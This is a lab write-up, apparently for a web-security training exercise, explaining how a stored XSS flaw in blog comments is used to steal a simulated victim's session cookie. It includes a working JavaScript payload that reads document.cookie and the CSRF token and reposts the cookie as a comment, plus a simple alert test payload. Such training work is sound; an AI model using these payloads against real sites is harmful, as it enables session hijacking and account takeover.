


# Exploiting cross-site scripting to steal cookies
# Objective
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

# Solution
This lab requires Professional edition of Burp Suite (Burp Collaborator). Even though, it can be solved without professional version but it is a little bit more complicated.

## Analysis
Payload: `<script> alert() </script>` - comment field is vulnerable to XSS attack.
||
|:--:| 
||
||

In order to steal user’s cookie, attacker should prepare arbitrary JavaScript code that would run in victim browser and that would send cookie value in HTTP Request to Burp Collaborator.\
Other way to steal user’s cookie is to force user to post his cookie in the comment on the website. To perform this attack `csrf` value will be needed while crafting a valid comment for this blog (and cookie value - main goal of this attack).


## XSS Exploit
```js
// The 'csrf' value might not exists while this code will be executed
// Therefore all this code should be delayed 
// This line of code ensures that 'csrf' token exists
window.addEventListener('DOMContentLoaded', function(){

var csrftoken = document.getElementsByName('csrf')[0].value;

var data = new FormData();
data.append('csrf', csrftoken);
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data

});
});
```
`PostId` value should be changed appropriately.
||
|:--:| 
| *Contents of document.cookie* |

After changing cookie value while sending a request, request is sent as if it was from another user.

